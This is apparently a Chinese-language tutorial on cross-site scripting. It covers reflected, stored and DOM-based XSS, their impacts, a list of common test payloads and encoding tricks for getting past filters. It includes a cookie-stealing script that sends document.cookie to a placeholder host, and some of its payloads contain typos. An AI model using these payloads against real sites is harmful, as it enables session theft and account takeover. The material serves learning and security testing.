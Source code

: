 # 1.XSS漏洞概述
## 1.1 漏洞简介
跨站脚本攻击—XSS（Cross Site Script），是指攻击者通过在Web页面中写入恶意脚本，造成用户在浏览页面时，控制用户浏览器进行操作的攻击方式。假设，在一个服务端上，有一处功能使用了这段代码，他的功能是将用户输入的内容输出到页面上，很常见的一个功能。但是假如，这里输入的内容是一段经过构造的js。那么在用户再次访问这个页面时，就会获取使用js在用户的浏览器端执行一个弹窗操作。通过构造其他相应的代码，攻击者可以执行更具危害的操作。

## 1.2 XSS漏洞原理
### 1.2.1 反射型
非持久型，常见的就是在URL中构造，将恶意链接发送给目标用户。当用户访问该链接时候，会向服务器发起一个GET请求来提交带有恶意代码的链接。造成反弹型XSS
主要是GET类型
### 1.2.2 存储型
持久型，常见的就是在博客留言板、反馈投诉、论坛评论、将恶意代码和正文都存入服务器的数据库。每次访问都会触发恶意代码。
例如：`<srcipt>alert(/xss/)</srcipt>`
### 1.2.3 DOM型
DOM型是特殊的反射型XSS
在网站页面中有许多页面的元素，当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。

```
<script>var img=document.createElement("img");img.src="http://xxxx/a?"+escape(document.cookie);</script>
```
## 1.3 XSS危害
### 1.3.1 盗取管理员cookie
盗取管理员的cookie然后登陆后台，获取到后台权限。
### 1.3.2 XSS蠕虫攻击
可以构成几何的速度进行传播xss代码，获取大部分人的权限。一般配合csrf使用


## 1.4 常用XSS语句
```
<script>alert(/xss/);</script> //经典语句

<BODY ONLOAD=alert('XSS')>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href = javasript:alert(1)>
```

## 1.5 XSS漏洞绕过
### 1.5.1 JS编码
三个八进制数；如果不够前面补0
两个十六进制数字；如果不够前面补0
四个十六进制数字；如果不够前面补0
控制字符
### 1.5.2 HTML实体编码
以`&`开始`;`结束
### 1.5.3 URL编码
%27
考虑HTML的渲染方式选择合适的编码方式进行测试
## 1.6 XSS漏洞浏览器问题
有些浏览器会过滤掉一些js脚本，在测试的时候需要关闭对JavaScript的检测。